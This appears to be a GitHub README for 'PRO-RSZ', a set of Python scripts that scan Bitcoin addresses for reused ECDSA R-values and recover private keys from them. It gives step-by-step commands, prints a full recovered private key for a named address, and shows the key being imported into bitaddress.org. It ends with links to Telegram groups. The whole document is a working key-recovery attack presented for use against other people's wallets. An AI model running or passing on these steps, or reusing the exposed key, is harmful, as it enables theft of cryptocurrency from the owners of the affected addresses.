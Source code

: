 # PRO-RSZ
NOTE : Millions Of Trillions Address And Transaction Chack And FIND RSZ Vulnerability 
```bash
python3 addrsz.py
```
Enter the path to the Bitcoin address file Example
```bash
addresses.txt
```
Enter the number of transactions to fetch (1-infinite) Example
```bash
2000
```
![IMG_20250122_132938](https://github.com/user-attachments/assets/c4357307-e4ac-4099-bfa5-cb76de9975e0)

R-value reuse found Results saved in 1BFhrfTTZP3Nw4BNy4eX4KFLsn9ZeijcMm.txt
Chake Folder TXT File 1BFhrfTTZP3Nw4BNy4eX4KFLsn9ZeijcMm.txt

TXT File Transaction Copy
```bash
python3 privatekeydump.py -txid 9ec4bc49e828d924af1d1029cacf709431abbde46d59554b62bc270e3b29c4b1
```
![IMG_20250122_140254](https://github.com/user-attachments/assets/fc4f31e4-53fa-4e9c-a3ed-206bcc0b8674)

Private Key: 0xc477f9f65c22cce20657faa5b2d1d8122336f851a508a1ed04e479c34985bf96

Copy Private Key 
```bash
python3 key_to_address.py
```
Enter your raw private key (hex format)
```bash
0xc477f9f65c22cce20657faa5b2d1d8122336f851a508a1ed04e479c34985bf96
```
![IMG_20250122_140814](https://github.com/user-attachments/assets/3a816c53-8d73-468e-ab9d-b8a50aae5665)
Real Private Key (Hex) c477f9f65c22cce20657faa5b2d1d8122336f851a508a1ed04e479c34985bf96
Copy Private Key and Past Website
bitaddress.org
![IMG_20250122_134705](https://github.com/user-attachments/assets/26e48882-f9a0-4a30-b7c4-1b27db708b56)
Telegarm GROUP : https://t.me/cryptographytube

Telegarm Channel : https://t.me/BWDAT



